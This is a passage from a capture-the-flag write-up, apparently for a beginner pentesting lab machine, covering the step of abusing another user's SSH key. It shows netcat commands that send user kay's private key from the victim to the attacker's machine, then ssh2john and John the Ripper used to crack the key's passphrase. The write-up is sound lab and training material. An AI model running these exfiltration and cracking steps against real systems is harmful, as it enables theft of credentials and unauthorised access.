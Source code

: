 `kay`.

<br/>

# Task 9: If you have found another user, what can you do with this information?

Okay guys! We are about to finish this privilege escalation task, we now have SSH credentials and keys for another user, so what should we do with this SSH stuff? As we all know the famous quote **_"Google is your friend"_**, and to be honest as a pentester, Google is more than your friend. Therefore, after searching for a technique on how we could benefit from those SSH keys, we found a good blog post, and its steps are as follows:

**1. Get the private key on your local machine**

To do so, we are gonna use `netcat` and set a listener on our local machine and connect back from the victim machine to send the file.

_Set the netcat listener on our machine:_

```console
$ nc -nlp 4040 > id_rsa
```

_Connect back from the victim machine:_

```console
jan@basic2:/home/kay/.ssh$ nc [Local_Machine_IP] 4040 < id_rsa
```
</br>

After getting the id_rsa private key of user kay when we try to connect to the victim machine as user kay, we see that the private key is protected with a passphrase. So to use it, we first need to crack its passphrase.

**2. Install SSH2John on the local machine**

> SSH2John is a utility to convert the key-file into a txt-format that would be suitable for JTR to crack and it's part of John The Ripper suite.

```console
$ wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
```

**3. Crack the private key on the local machine**

So now we are gonna use **SSH2John** to get the suitable format for JTR to understand. After that, we are gonna run John The Ripper to crack the passphrase.

```console
$ python ssh2john.py id_rsa > id_rsa.hash
```

![JTR](./Screenshots/JTR.png)
